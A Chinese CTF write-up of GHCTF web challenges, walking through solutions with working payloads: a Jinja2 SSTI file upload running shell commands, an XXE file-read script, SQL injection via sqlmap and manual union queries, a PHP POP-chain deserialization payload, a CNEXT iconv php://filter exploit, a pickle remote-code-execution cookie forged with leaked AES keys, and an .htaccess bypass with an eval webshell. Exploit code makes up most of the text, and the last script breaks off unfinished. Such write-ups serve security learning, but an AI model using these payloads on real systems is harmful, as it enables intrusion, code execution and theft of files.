# GHCTF比赛web方向详细多种解(全)-先知社区

> **来源**: https://xz.aliyun.com/news/17165  
> **文章ID**: 17165

---

# upload?SSTI!

题目描述：小李写了个简陋的文件上传服务器用来存储自己的学习资料，聪明的他还写了个waf，来防止黑客的入侵

审计附件源码

发现在查看文件内容的地方有个ssti注入的漏洞

```
 tmp_str = """<!DOCTYPE html>
        <html lang="zh">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>查看文件内容</title>

        </head>

        <body>
            <h1>文件内容：{name}</h1>  <!-- 显示文件名 -->
            <pre>{data}</pre>  <!-- 显示文件内容 -->

            <footer>
                <p>&copy; 2025 文件查看器</p>

            </footer>

        </body>

        </html>

        """.format(name=safe_filename, data=file_data)

        return render_template_string(tmp_str)

```

黑名单

```
dangerous_keywords = ['_', 'os', 'subclasses', '__builtins__', '__globals__','flag',]
```

bp报文内容

```
POST / HTTP/1.1
Host: node2.anna.nssctf.cn:28024
Content-Length: 259
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://node2.anna.nssctf.cn:28024
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUg1MxD3XQnxNegR8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node2.anna.nssctf.cn:28024/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryUg1MxD3XQnxNegR8
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

{{lipsum['\u005f\u005fglobals\u005f\u005f']['o''s'].popen('cat /f*').read()}}
------WebKitFormBoundaryUg1MxD3XQnxNegR8--

```



然后访问/file/加上文件名

/file/1.txt



# (>﹏<)

题目源码

```

from flask import Flask,request
import base64
from lxml import etree
import re
app = Flask(__name__)

@app.route('/')
def index():
    return open(__file__).read()


@app.route('/ghctf',methods=['POST'])
def parse():
    xml=request.form.get('xml')
    print(xml)
    if xml is None:
        return "No System is Safe."
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    root = etree.fromstring(xml, parser)
    name=root.find('name').text
    return name or None


if __name__=="__main__":
    app.run(host='0.0.0.0',port=8080)
```

这里的parse方法就是先去解析xml，然后找到根节点，接着遍历去寻找name这个属性

最后会返回name的值，所以就是有回显xml

我们构造一下即可

```
import requests

# 假设你的 XML 数据是以下的字符串：
xml_data = """
<!DOCTYPE root [
    <!ENTITY file SYSTEM "file:///flag">
]>
<root>
<name>Example Name &file;</name>

</root>

"""

# 设置要发送的 URL
url = 'http://node2.anna.nssctf.cn:28679/ghctf'  # 根据你的实际 Flask 服务器 URL 修改

# 设置 POST 请求的数据
data = {
    'xml': xml_data
}

# 发送 POST 请求
response = requests.post(url, data=data)

# 打印响应内容
print(response.text)
```

xml注入，直接外带flag即可

# SQL???

可以直接跑sqlmap

sqlmap -r sql.txt -p id --dbs -T flag -C flag --dump

sql.txt

```
GET /?id= HTTP/1.1
Host: node2.anna.nssctf.cn:28794
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```

```
 NSSCTF{Funny_Sq11111111ite!!!}
```

当然也可以手工注入

```
http://node2.anna.nssctf.cn:28082/?id=1/**/union/**/select/**/1,2,3,4,flag/**/from/**/flag
```

过滤了空格

```
http://node2.anna.nssctf.cn:28082/?id=1/**/union/**/select/**/1,2,3,4,group_concat(name)/**/from/**/sqlite_master
```

然后测试有5个位置但是只有4个回显位

然后跑出数据表，有个flag表

然后发现flag表有个flag的字段

```
http://node2.anna.nssctf.cn:28082/?id=1/**/union/**/select/**/1,2,3,4,group_concat(sql)/**/from/**/sqlite_master
```



然后获得flag

```
http://node2.anna.nssctf.cn:28082/?id=1/**/union/**/select/**/1,2,3,4,flag/**/from/**/flag
```

# Popppppp

<https://blog.csdn.net/liaochonxiang/article/details/140361138?fromshare=blogdetail&sharetype=blogdetail&sharerId=140361138&sharerefer=PC&sharesource=git_clone&sharefrom=from_link>

原题

虽然有原题，但是还是可以分析一下怎么

一般pop链子我都会先找destruct或者construct

然后再找终极调用的地方反推回去。

那么这题先找到

CherryBlossom::destruct

大概猜到能触发tostring了



然后找终极调用的地方，

一开始我以为是Princess::\_\_call然后可以执行call\_user\_func

但是细心点发现不存在的方法名字和My拼接了，

而且只有Samurai调用了一个不存在的add方法



我们再找找终极调用的地方

那么我们倒推回去，

调用不存在的方法会触发call

然后发现见到一个没见过的函数array\_walk

<https://www.runoob.com/php/func-array-walk.html>



```
其实就是
array_walk($this, function ($day1, $day2))
```

但是这个function (day2)是需要接受两个参数的  
这里还new了一个类，然后还进行遍历了，然后就不难想到php的原生类

<https://blog.csdn.net/cjdgg/article/details/115314651>

php原生类



这样的话我们其实找到了操作文件的地方，不一定就要rce

然后我们倒推一下，当程序调用一个未定义或不可见(私有变量)的成员变量时就会触发get魔术方法



发现这个类调用了一个hey的不存在的属性

然后invoke是当尝试以调用函数的方式调用一个对象时，就会触发invoke

发现看头的类就有



那么链子就有了

```
CherryBlossom::__destruct -> CherryBlossom::__toString
->Philosopher::__invoke -> Mystery::__get
```

然后

```
        if (md5(md5($this->fruit11)) == 666) {
            return $this->fruit10->hey;
        }
```

这里可以通过爆破得到$this->fruit11应该为213

脚本

```
import hashlib
import itertools
import string

for i in itertools.product(string.printable, repeat=3):
    s = ''.join(i)
    s1 = hashlib.md5(s.encode()).hexdigest()
    s2 = hashlib.md5(s1.encode()).hexdigest()
    if s2[:3] == '666':
        print(s)
```

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;


}
class Mystery {
//    public function __get($arg1) {
//        array_walk($this, function ($day1, $day2) {
//            $day3 = new $day2($day1);
//            foreach ($day3 as $day4) {
//                echo ($day4 . '<br>');
//            }
//        });
//    }
}

class Philosopher {
    public $fruit10;
    public $fruit11="sr22kaDugamdwTPhG5zU";

//    public function __invoke() {
//        if (md5(md5($this->fruit11)) == 666) {
//            return $this->fruit10->hey;
//        }
//    }
}
$a1=new Mystery;
$a1->FilesystemIterator='/';

$a2=new Philosopher;
$a2->fruit11='213';
$a2->fruit10=$a1;

$a3=new CherryBlossom;
$a3->fruit2=$a2;

$a4=new CherryBlossom;
$a4->fruit1=$a3;

$s=serialize($a4);
echo $s;
```

payload列出根目录

```
O:13:"CherryBlossom":2:{s:6:"fruit1";O:13:"CherryBlossom":2:{s:6:"fruit1";N;s:6:"fruit2";O:11:"Philosopher":2:{s:7:"fruit10";O:7:"Mystery":1:{s:18:"FilesystemIterator";s:1:"/";}s:7:"fruit11";s:3:"213";}}s:6:"fruit2";N;}

```



//flag44545615441084

```
<?php
error_reporting(0);

class CherryBlossom {
    public $fruit1;
    public $fruit2;


}
class Mystery {
//    public function __get($arg1) {
//        array_walk($this, function ($day1, $day2) {
//            $day3 = new $day2($day1);
//            foreach ($day3 as $day4) {
//                echo ($day4 . '<br>');
//            }
//        });
//    }
}

class Philosopher {
    public $fruit10;
    public $fruit11="sr22kaDugamdwTPhG5zU";

//    public function __invoke() {
//        if (md5(md5($this->fruit11)) == 666) {
//            return $this->fruit10->hey;
//        }
//    }
}
$a1=new Mystery;
$a1->SplFileObject='/flag44545615441084';

$a2=new Philosopher;
$a2->fruit11='213';
$a2->fruit10=$a1;

$a3=new CherryBlossom;
$a3->fruit2=$a2;

$a4=new CherryBlossom;
$a4->fruit1=$a3;

$s=serialize($a4);
echo $s;
```

payload2

```
O:13:"CherryBlossom":2:{s:6:"fruit1";O:13:"CherryBlossom":2:{s:6:"fruit1";N;s:6:"fruit2";O:11:"Philosopher":2:{s:7:"fruit10";O:7:"Mystery":1:{s:13:"SplFileObject";s:19:"/flag44545615441084";}s:7:"fruit11";s:3:"213";}}s:6:"fruit2";N;}
```

# ez\_readfile

这题的思路其实就是打cnext，但是直接用脚本的话跑不出来，感觉是吞字符的原因。

md5强碰撞，可以用工具fastcoll\_v1.0.0.5.exe生成，也可以直接用网上的payload

文章<https://blog.csdn.net/EC_Carrot/article/details/109527378>

这里发现我bp的post传的字符是可以利用的，但是python发包不行，所以就没有直接用cnext的脚本直接跑了



然后找文章看看能不能直接本地生成payload直接打的



原来只要读这两个文件的内容即可

找到这个工具<https://github.com/kezibei/php-filter-iconv>

我们先利用

php://filter/convert.base64-encode/resource=/proc/self/maps

下载，然后看到这个文件里面有说明libc具体的位置



php://filter/convert.base64-encode/resource=/lib/x86\_64-linux-gnu/libc-2.31.so

然后改成脚本里面的名字maps和libc-2.23.so放在exp的同一个目录下面



然后exp2.py写的命令是



因为我怕php的字符会吞掉或者转义之类的没掉，然后直接看flag的名字就行

```
php://filter/read=zlib.inflate|zlib.inflate|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.latin1.latin1|dechunk|convert.iconv.UTF-8.ISO-2022-CN-EXT|convert.quoted-printable-decode|convert.iconv.latin1.latin1/resource=data:text/plain;base64,e3vXMU9lu2hD4rr7hkVMYeVbXXSzEq0Xl64L2BB5/YQa9%2bHlZ9S%2bn0g2vKmizWz0gHE//5Hzz1a4v7qknRG9lYkBL9jQkmv9%2bJ7c97DnK%2b0erdi6RneSNAt%2bHQmCt8uO7bV9t/ZccO2RwOzIaBVzDvw6Dihte9tTXX0neu7yXx2Lr23a5pEngF9HxKni7ML8r/de2Vy1msdgf23xv%2bdHp6%2bXvxW4/XH0v47jF299/PfT/e8C12t1199/7g5TqZfDbx7Dj83Vqw23hc%2b%2bbfNWt%2b981Z%2bA/u3PP1bIrpV9P999bfLeVxf3ya4////v92nv///4/939UzQbXuMa7j/9efovw6fn%2bt%2bZT8y3P3/5vGnf9%2bcfv13%2b%2bE3q9V65/iqb7Y9/Pq74%2bO3xx2%2bF9V%2bXF9b8%2bVpRd0f/28cpn2J%2bH9/4/n/t52ybOX/WyubP/76x7//U%2bzV7/hfLHC//V/a90Gaf7PvfH%2b%2b5PX98Vvf0r7/ak%2bzzCfju9I1tYt/D3gNjZG1g2Lf19/8JnnzLSCBOSuZOvGm8t3%2bLRndHyj8C5vtcl5xpe/m3R/emDo9n/KMGjxo8ajDZBm/Ys/ZaxMui7ZVb5YtvL3IpkiZgtk7%2batOwXXdy494ev7NNY%2bIdNkKFwe2s3ql65bPDfxtu1/VS2U6oINi07daje1k1/vK/p8qbn5r%2bI/rn8/i6v9Wagg/LCNgUcS0s%2bk507/uXyfuzpuiLCeax41ffkJq79ejeqz/m2X1b7fYzSfBjPgA=
```

生成的poc

bp发包之后没回显，但其实已经写入了



成功拿到flag名字

```
f1wlxekj1lwjek1lkejzs1lwje1lwesjk1wldejlk1wcejl1kwjelk1wjcle1jklwecj1lkwcjel1kwjel1cwjl1jwlkew1jclkej1wlkcj1lkwej1lkcwjellag
```



非预期解，直接读docker文件名字

# ezzzz\_pickle

前台用爆破，得到用户名和密码

admin

admin123

进入后台之后有个文件读取，穿越路径直接读到源码

```
from flask import Flask, request, redirect, make_response,render_template
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import pickle
import hmac
import hashlib
import base64
import time
import os

app = Flask(__name__)


def generate_key_iv():
    key = os.environ.get('SECRET_key').encode()
    iv = os.environ.get('SECRET_iv').encode()
    return key, iv


def aes_encrypt_decrypt(data, key, iv, mode='encrypt'):

    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())

    if mode == 'encrypt':
        encryptor = cipher.encryptor()

        padder = padding.PKCS7(algorithms.AES.block_size).padder()
        padded_data = padder.update(data.encode()) + padder.finalize()
        result = encryptor.update(padded_data) + encryptor.finalize()
        return base64.b64encode(result).decode()

    elif mode == 'decrypt':
        decryptor = cipher.decryptor()

        encrypted_data_bytes = base64.b64decode(data)
        decrypted_data = decryptor.update(encrypted_data_bytes) + decryptor.finalize()

        unpadder = padding.PKCS7(algorithms.AES.block_size).unpadder()
        unpadded_data = unpadder.update(decrypted_data) + unpadder.finalize()
        return unpadded_data.decode()

users = {
    "admin": "admin123",
}

def create_session(username):

    session_data = {
        "username": username,
        "expires": time.time() + 3600
    }
    pickled = pickle.dumps(session_data)
    pickled_data = base64.b64encode(pickled).decode('utf-8')

    key,iv=generate_key_iv()
    session=aes_encrypt_decrypt(pickled_data, key, iv,mode='encrypt')


    return session

def dowload_file(filename):
    path=os.path.join("static",filename)
    with open(path, 'rb') as f:
        data=f.read().decode('utf-8')
    return data
def validate_session(cookie):

    try:
        key, iv = generate_key_iv()
        pickled = aes_encrypt_decrypt(cookie, key, iv,mode='decrypt')
        pickled_data=base64.b64decode(pickled)


        session_data = pickle.loads(pickled_data)
        if session_data["username"] !="admin":
            return False

        return session_data if session_data["expires"] > time.time() else False
    except:
        return False

@app.route("/",methods=['GET','POST'])
def index():

    if "session" in request.cookies:
        session = validate_session(request.cookies["session"])
        if session:
            data=""
            filename=request.form.get("filename")
            if(filename):
                data=dowload_file(filename)
            return render_template("index.html",name=session['username'],file_data=data)

    return redirect("/login")

@app.route("/login", methods=["GET", "POST"])
def login():

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if users.get(username) == password:
            resp = make_response(redirect("/"))

            resp.set_cookie("session", create_session(username))
            return resp
        return render_template("login.html",error="Invalid username or password")

    return render_template("login.html")


@app.route("/logout")
def logout():
    resp = make_response(redirect("/login"))
    resp.delete_cookie("session")
    return resp

if __name__ == "__main__":
    app.run(host="0.0.0.0",debug=False)
```

然后读/proc/self/environ得到key和iv

SECRET\_key=ajwdopldwjdowpajdmslkmwjrfhgnbbv

```
SECRET_iv=asdwdggiouewhgpw
```

脚本,注意这段脚本要放在linux系统上面运行

```
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding
import pickle
import hmac
import hashlib
import base64
import time
import os
import pickle
import base64
import os

def generate_key_iv():
    key = "ajwdopldwjdowpajdmslkmwjrfhgnbbv".encode()
    iv = "asdwdggiouewhgpw".encode()
    return key, iv


def aes_encrypt_decrypt(data, key, iv, mode='encrypt'):

    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())

    if mode == 'encrypt':
        encryptor = cipher.encryptor()

        padder = padding.PKCS7(algorithms.AES.block_size).padder()
        padded_data = padder.update(data.encode()) + padder.finalize()
        result = encryptor.update(padded_data) + encryptor.finalize()
        return base64.b64encode(result).decode()

    elif mode == 'decrypt':
        decryptor = cipher.decryptor()

        encrypted_data_bytes = base64.b64decode(data)
        decrypted_data = decryptor.update(encrypted_data_bytes) + decryptor.finalize()

        unpadder = padding.PKCS7(algorithms.AES.block_size).unpadder()
        unpadded_data = unpadder.update(decrypted_data) + unpadder.finalize()
        return unpadded_data.decode()

users = {
    "admin": "admin123",
}

def create_session(session_data):


    pickled = pickle.dumps(session_data)
    pickled_data = base64.b64encode(pickled).decode('utf-8')

    key,iv=generate_key_iv()
    session=aes_encrypt_decrypt(pickled_data, key, iv,mode='encrypt')
    return session

import pickle
import base64
class Exp(object):
    def __reduce__(self):
       return (os.system,("cat /f* > app.py",))
a = Exp()
r=create_session(a)
print(r)
```

把加密好的payload放到session字符串，然后执行，然后再次登陆即可看到flag



非预期解

```
filename=../../../docker-entrypoint.sh
```

读文件名字

```
/flag11451412343212351256354
```

# UPUPUP

这题发现可以上传.htaccess

注：如果遇到图片文件头检测，例如用exif\_imagetype检查是否为图片类型,

.user.ini可以不加注释直接打上GIF89a然后换行，不会报错;

.htaccess会报500错误

对于.htaccess来说，不能简单的加上GIF89a等文件头直接绕过，因为这会造成.htaccess文件格式不正确，无法解析，这时候我们就可以用以下方法进行绕过

在htaccess文件头部添加：

#define width 1337#define height 1337

或：

利用16进制编辑器添加：

x00x00x8ax39x8ax39

然后Content-Type为image/gif

内容是

```
#define width 1337
#define height 1337
AddHandler application/x-httpd-php .png
```

然后再上传一个shell即可

```
shell.png

GIF89a
<?php eval($_POST[0]);?>
```

下面是脚本

```
import requests

TARGET = "http://node2.anna.nssctf.cn:28272/"

# 固定 boundary 与请求包一致
BOUNDARY = "----WebKitFormBoundarydYAiLNdtGCB8aQvE"


def construct_multipart_body(files_data):
    """
    严格按原始请求包格式构造 multipart 内容
    """
    body = []
    # 文件部分
    for name, filename, content, content_type in files_data:
        body.append(f'--{BOUNDARY}')
        body.append(f'Content-Disposition: form-data; name="{name}"; filename="{filename}"')
        body.append(f'Content-Type: {content_type}')
        body.append('')
        body.append(content.decode('latin-1'))  # 保持二进制兼容
        body.append('')

    # 固定 "upload" 字段
    body.append(f'--{BOUNDARY}')
    body.append('Content-Disposition: form-data; name="upload"')
    body.append('')
    body.append('上传')
    body.append(f'--{BOUNDARY}--')

    return '\r
'.join(body).encode('utf-8')  # 必须用 latin-1 编码


# 构造 .htaccess 内容（修复幻数问题）
htaccess_content = (
    b"#define width 1337
"  # 幻数必须在前6字节
    b"#define height 1337
"  # 注释避免语法错误  
    b"AddHandler application/x-httpd-php .png"
)

# 构造 multipart 数据
files_data = [
    ("file", ".htaccess", htaccess_content, "image/png")
]

headers = {
    "Host": "node2.anna.nssctf.cn:28272",
    "Content-Type": f"multipart/form-data; boundary={BOUNDARY}",
    "Referer": "http://node2.anna.nssctf.cn:28272/",
    # 其他头部必须与原始请求严格一致
    "Cache-Control": "max-age=0",
